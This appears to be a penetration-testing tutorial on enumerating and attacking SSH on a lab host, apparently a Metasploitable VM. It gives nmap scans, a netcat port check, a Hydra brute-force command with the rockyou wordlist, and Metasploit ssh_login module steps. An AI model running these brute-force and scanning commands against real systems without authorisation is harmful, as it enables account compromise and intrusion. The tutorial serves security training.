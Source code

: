 ### **SSH (Secure Shell) Enumeration and Exploitation**

SSH is commonly used for remote administration of servers. By enumerating the SSH service, you can identify weak authentication methods or vulnerable configurations.

#### _**Scan SSH Service**_

To scan for SSH service and obtain information about its version and configuration:

nmap -p22 -sV -O 192.168.56.106

#### _**Login to SSH**_

To manually test SSH access, use the ssh command with the identified credentials.

ssh msfadmin@192.168.56.106

Alternatively, test SSH connectivity using nc (Netcat) to verify if the port is open.

nc 192.168.56.106 22

#### _**Use Nmap SSH Scripts**_

Nmap provides several scripts that can be useful for enumerating SSH-related information.

- **SSH Algorithm Enumeration**:
    
- nmap -p22 --script ssh2-enum-algos 192.168.56.106
    
- **SSH Host Key Enumeration**:
    
- nmap -p22 --script ssh-hostkey --script-args ssh_hostkey=full 192.168.56.106
    
- **SSH Authentication Methods**:
    
- nmap -p22 --script ssh-auth-methods --script-args="ssh.user=msfadmin" 192.168.56.106
    

#### _**Brute-Forcing SSH with Hydra**_

Brute-force SSH credentials using Hydra by specifying a username and password list:

hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt 192.168.56.106 ssh

#### _**Metasploit for SSH Enumeration**_

Metasploit can also be used to brute-force SSH credentials. The following steps describe how to use Metasploit for SSH login attempts.

1. Start Metasploit:
    
2. msfconsole
    
3. Use the SSH login auxiliary module:
    
4. use auxiliary/scanner/ssh/ssh_login
    
5. set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt
    
6. set STOP_ON_SUCCESS true
    
7. set verbose true
    